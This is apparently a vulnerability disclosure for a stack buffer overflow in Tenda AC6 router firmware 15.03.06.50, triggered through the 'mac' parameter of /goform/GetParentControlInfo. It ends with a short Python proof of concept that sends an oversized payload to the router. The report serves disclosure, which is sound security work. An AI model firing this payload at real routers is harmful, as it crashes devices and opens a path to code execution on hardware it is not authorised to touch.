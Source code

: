 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/GetParentControlInfo`. When `mac` is specified with excessive data, the buffer overflow occurs during `strcpy`.

![alt text](image-1.png)
![alt text](image-2.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'mac': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/GetParentControlInfo", payload)
```
